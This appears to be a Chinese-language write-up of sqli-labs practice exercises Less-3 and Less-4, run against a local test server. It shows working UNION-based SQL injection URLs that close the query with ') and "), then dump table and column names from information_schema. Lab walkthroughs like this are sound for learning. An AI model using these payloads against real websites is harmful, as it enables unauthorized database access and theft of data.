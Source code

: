 

# Less-3

1. 确定攻击点及判断闭合方式

   攻击点:?id=1’)   --+ 来闭合

   ![image-20250307215718610](https://gitee.com/PUqicnda/img/raw/master/20250307215718713.png)

   ![image-20250307215737471](https://gitee.com/PUqicnda/img/raw/master/20250307215737540.png)

2. 判断字段数

   ![image-20250307220017858](https://gitee.com/PUqicnda/img/raw/master/20250307220017960.png)

   只有3列

3. 求数据库名和用户名

   ![image-20250307220211471](https://gitee.com/PUqicnda/img/raw/master/20250307220211582.png)

   想要union后面查询回显，1前面要加 - 。

4. 求数据库security的所有表名

   ```
   http://localhost:1234/Less-3/?id=-1%27)%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()%20--+
   ```

   ![image-20250307220559286](https://gitee.com/PUqicnda/img/raw/master/20250307220559376.png)

5. 查询列名

   ![image-20250307222234005](https://gitee.com/PUqicnda/img/raw/master/20250307222234168.png)

   ```
   http://localhost:1234/Less-3/?id=-1%27)%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27users%27%20--+
   ```

6. 查询数据

   ![image-20250307222417791](https://gitee.com/PUqicnda/img/raw/master/20250307222417919.png)

# Less-4

1. 确认攻击点及闭合点

   攻击点:?id=1")   --+ 来闭合

   ![image-20250307223118881](https://gitee.com/PUqicnda/img/raw/master/20250307223119044.png)

   ![image-20250307223141439](https://gitee.com/PUqicnda/img/raw/master/20250307223141546.png)
